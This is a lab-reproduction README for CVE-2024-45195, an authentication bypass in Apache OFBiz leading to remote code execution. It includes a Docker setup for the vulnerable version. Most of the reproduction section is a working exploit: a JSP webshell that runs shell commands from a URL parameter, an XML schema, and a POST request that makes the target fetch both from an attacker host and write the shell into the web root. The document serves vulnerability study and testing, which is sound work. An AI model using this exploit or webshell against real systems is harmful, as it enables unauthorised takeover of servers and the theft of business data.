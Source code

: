 # Apache OFBiz Authentication Bypass Leads to RCE (CVE-2024-45195)

[中文版本(Chinese version)](README.zh-cn.md)

Apache OFBiz is an open source enterprise resource planning (ERP) system. It provides a suite of enterprise applications that integrate and automate many of the business processes of an enterprise.

This vulnerability occurs as a result of incomplete fixing for previous vulnerabilities (CVE-2024-32113, CVE-2024-36104, and CVE-2024-38856). In Apache OFBiz versions prior to 18.12.16, the developers implemented fixes for these previous issues, but the underlying problem of controller-view map state desynchronization still existed. This allowed attackers to bypass authentication and access sensitive admin-only view maps.

References:

- <https://github.com/apache/ofbiz-framework/commit/ab78769c2d>
- <https://github.com/apache/ofbiz-plugins/commit/8b95fe6fa>
- <https://www.rapid7.com/blog/post/2024/09/05/cve-2024-45195-apache-ofbiz-unauthenticated-remote-code-execution-fixed/>

## Vulnerable environment

Executing following command to start an Apache OfBiz 18.12.15 server:

```
docker compose up -d
```

After a short wait, you can see the login page at `https://localhost:8443/accounting`.

## Vulnerability Reproduce

Before reproducing the vulnerability, this exploit requires setting up a malicious XML schema file and a CSV file on an attacker-controlled server

First one `rceschema.xml`, this XML schema defines the structure of the malicious JSP:

```xml
<data-files xsi:noNamespaceSchemaLocation="http://ofbiz.apache.org/dtds/datafiles.xsd" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
    <data-file name="rce" separator-style="fixed-length" type-code="text" start-line="0" encoding-type="UTF-8">
        <record name="rceentry" limit="many">
            <field name="jsp" type="String" length="605" position="0"></field>
        </record>
    </data-file>
</data-files>
```

Second one `rcereport.csv`, this CSV file contains the actual JSP code:

```jsp
<%@ page import='java.io.*' %><%@ page import='java.util.*' %><h1>Ahoy!</h1><br><% String getcmd = request.getParameter("cmd"); if (getcmd != null) { out.println("Command: " + getcmd + "<br>"); String cmd1 = "/bin/sh"; String cmd2 = "-c"; String cmd3 = getcmd; String[] cmd = new String[3]; cmd[0] = cmd1; cmd[1] = cmd2; cmd[2] = cmd3; Process p = Runtime.getRuntime().exec(cmd); OutputStream os = p.getOutputStream(); InputStream in = p.getInputStream(); DataInputStream dis = new DataInputStream(in); String disr = dis.readLine(); while ( disr != null ) { out.println(disr); disr = dis.readLine();}} %>,
```

Then send the following request:

```
POST /webtools/control/forgotPassword/viewdatafile HTTP/1.1
Host: target:8443
User-Agent: curl/7.81.0
Accept: */*
Content-Length: 241
Content-Type: application/x-www-form-urlencoded

DATAFILE_LOCATION=http://attacker/rcereport.csv&DATAFILE_SAVE=./applications/accounting/webapp/accounting/index.jsp&DATAFILE_IS_URL=true&DEFINITION_LOCATION=http://attacker/rceschema.xml&DEFINITION_IS_URL=true&DEFINITION_NAME=rce
```

![](1.png)

This request exploits the vulnerability by leveraging the viewdatafile view map to write a malicious JSP file to the web root, effectively achieving remote code execution.

After the JSP webshell is written, execute arbitrary commands through `https://localhost:8443/accounting/index.jsp?cmd=id`:

![](2.png)
